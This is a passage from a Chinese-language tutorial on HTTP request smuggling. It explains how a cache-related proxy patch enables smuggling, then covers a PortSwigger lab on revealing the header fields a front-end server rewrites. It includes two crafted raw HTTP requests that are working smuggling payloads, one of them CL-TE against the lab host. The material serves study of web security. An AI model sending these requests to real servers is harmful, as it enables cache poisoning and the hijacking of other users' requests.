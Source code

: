 CL-TE攻击可以生效。

#### 第四个补丁

```
当缓存命中时，清空请求体
```

在命中缓存的同时，补丁会忽略掉CL并删除掉请求体，由于忽略CL，会直接检测下一个请求行，当请求体中遇到请求行时，会当作下一个http请求处理。如下例：

构造请求：

```
GET /1.html HTTP/1.1rn
Host: lnmp.mengsec.comrn
Cache-control: max-age=10rn
Content-Length: 56rn
rn
GET /random_str.php HTTP/1.1rn
Host: lnmp.mengsec.comrn
rn
```

请求中的资源命中缓存，CL被忽略，直接读取到请求体中的请求行，导致http请求走私成功。



## 其他攻击实例

### 获取前端服务器重写请求字段

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting

在一般的网络环境下，前端代理服务器在收到请求后，不会直接发送给后端服务器，而是先添加一些必要的字段，然后再转发给后端服务器。这些字段对于服务器处理请求是必须的，例如：

		- 描述TLS连接所使用的协议的密码
		- 包含用户IP的XFF头
		- 用户的会话令牌ID

在走私请求时，若没有这些字段，后端服务器是不能正确处理请求的。

要获取重写字段，可以按如下三个字段：

- 找一个能够将请求参数的值输出到响应中的POST请求
- 把该POST请求找到的特殊参数放在消息体后面
- 走私这一请求，然后直接发送一个普通请求，前端服务器对这个请求重写的字段就会显示出来。

构造请求如下：

```
POST / HTTP/1.1
Host: ac831f8c1f287d3d808d2e1c00280087.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Content-Type: application/x-www-form-urlencoded
Cookie: session=2rOrjC16pIb7ZfURX8QlSuU1v6UMAXLA
Content-Length: 77
Transfer-Encoding: chunked

0


POST / HTTP/1.1
Content-Length: 70
Connection: close

search=123
```
